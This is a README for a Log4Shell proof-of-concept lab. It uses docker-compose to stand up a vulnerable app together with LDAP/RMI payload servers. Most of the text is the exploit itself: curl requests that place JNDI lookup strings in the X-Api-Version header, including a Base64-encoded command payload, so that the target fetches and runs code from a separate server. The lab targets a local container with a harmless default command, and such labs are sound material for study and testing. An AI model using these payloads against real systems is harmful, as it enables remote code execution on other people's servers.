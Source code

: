 log4shell POC

# Steps

1. Build the images
```bash
docker-compose build
```

2. config the command in `.env`, default is `touch /tmp/pwned`

3. Compose!
```bash
docker-compose up -d
```

4. The vuluerable app is up and the 8080 port is binded on the host machine.
To get the ldap payload, please see the log of the container `rmi-server`.

![get_payload](images/get_payload.png)

and make a request, e.g.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://rmi-server:1389/7mqfuh}'
```

Or use `jndi-exploit` to send the payload, e.g.
```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://jndi-exploit:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

5. Check the result, go to the console of the app.

![result](images/result.png)
